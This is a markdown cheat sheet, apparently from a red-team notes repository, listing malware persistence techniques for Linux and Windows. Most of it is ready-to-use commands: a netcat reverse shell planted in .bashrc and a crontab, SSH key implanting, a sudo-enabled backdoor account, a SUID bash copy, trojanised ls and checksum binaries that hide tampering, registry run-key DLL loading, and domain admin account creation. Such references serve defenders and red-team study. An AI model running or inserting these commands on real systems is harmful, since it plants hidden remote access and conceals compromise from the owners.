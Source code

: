 ```yaml
---
title: Persistence techniques
description: How malwares persist in the victim host.
---
```


# Malware persistence techniques

## Linux

> [PDF - Linux Red Team Persistence Techniques](https://papers.vx-underground.org/papers/Linux/Persistence/Linux%20Red%20Team%20Persistence%20Techniques.pdf)
>
> [PDF - My Methods To Achieve Persistence In Linux Systems](https://papers.vx-underground.org/papers/Linux/Persistence/My%20Methods%20to%20Achieve%20Persistence%20in%20Linux%20Systems.pdf)
>
> [PDF - Understanding Linux Malware](https://reyammer.io/publications/2018_oakland_linuxmalware.pdf)

### SSH Key

```
echo <public_key> >> /root/.ssh/authorized_keys
echo <public_key> >> /home/<user>/.ssh/authorized_keys
```

### Add new account

```
useradd -m -s /bin/bash ftp
usermod -aG sudo ftp
passwd ftp
```

### Shell configuration backdoor

- `.bashrc` : Executed every time a user starts up a fresh terminal session in interactive mode.
- `.bash_profile` : Executed every time a user logs into a system. 

Example :

```
echo 'nc -e /bin/bash <IP> <PORT> 2>/dev/null &' >> ~/.bashrc
```

### Exposed services backdoor

- webshell

### Cronjobs

```
$ crontab -e
* * * * * nc <IP> <PORT> -e /bin/sh
```

```
/etc/cron.hourly/
/etc/crontab
/etc/cron.daily/
```

### Local privesc

```
cp /bin/bash /bin/sys
chmod u+s /bin/sys
/bin/sys -p
```

### System services / boot scripts

**systemd**

```
[Service]
Type=simple
ExecStartPre=<PAYLOAD>
...
```

**rc script**

```
/etc/rc.d/rc.local
/etc/rc.conf
/etc/init.d/
/etc/rcX.d/
/etc/rc.local
```

### X desktop autostart

- `~/.config/autostart`

### File replacement / infection

`ls` backdoor :

```
$ mv /bin/ls /bin/ls2
$ cat ls
#!/bin/bash

PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/sbin

<BACKDOOR>
/bin/ls2 "$@"
$ chmod a+x ./ls
$ mv ./ls /bin/ls
```

`md5sum`, `sha256sum`, `*sum` backdoor that returns good hashes for backdoored binaries.

```
$ md5sum /bin/ls
b9dcdfcaea8082f5f5879086fdf7f2e2  /bin/ls
$ sha256sum /bin/ls
f48db5b77c6fddb35548fb86c6e279e5d18c55d2d4ff9adae66a2d582187e7c7  /bin/ls
```

## Windows

> [MITRE ATT&CK - Persistence](https://attack.mitre.org/tactics/TA0003/)

### Scheduled Task

```
at 12:00 cmd /c <PAYLOAD>
```

### Startup folder

Placing a program within a startup folder will also cause that program to execute when a user logs in.

- Current user : `C:\Users\[Username]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`
- All users : `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`

### Registry keys

Adding an entry to the "run keys" in the Registry will cause the program referenced to be executed when a user logs in.

Registry run key entries can reference programs directly or list them as a dependency.

For example, it is possible to load a DLL at logon using a "Depend" key with RunOnceEx: `reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend /v 1 /d "C:\temp\evil[.]dll"`

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce

KEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnceEx
```

The following Registry keys can be used to set startup folder items for persistence:

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
```

The following Registry keys can control automatic startup of services during boot:

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices
```

Programs listed in the load value of the registry key `HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windows` run when any user logs on.

### Screensaver

- https://pentestlab.blog/2019/10/09/persistence-screensaver/

### PowerShell Profile

A profile is a Windows PowerShell ISE script that runs automatically when you start a new session.

Six different profiles :

- Current User, Current Host – console : `$Home\[My ]Documents\WindowsPowerShell\Profile.ps1`
- Current User, All Hosts : `$Home\[My ]Documents\Profile.ps1`
- All Users, Current Host – console : `$PsHome\Microsoft.PowerShell_profile.ps1`
- All Users, All Hosts : `$PsHome\Profile.ps1`
- Current user, Current Host – ISE : `$Home\[My ]Documents\WindowsPowerShell\Microsoft.P owerShellISE_profile.ps1`
- All users, Current Host – ISE : `$PsHome\Microsoft.PowerShellISE_profile.ps1`

### DLL Hijacking

### Service Hijacking

### Create account

Local account :

```cmd
net user /add <account_name> <account_password>
net user /delete <account_name>
```

Domain account :

```cmd
net user /add <account_name> <account_password> /domain
net group "Domain Admins" <account_name> /add /domain
```

### Software compoent

- Webshell
- SQL stored procedures
- ...
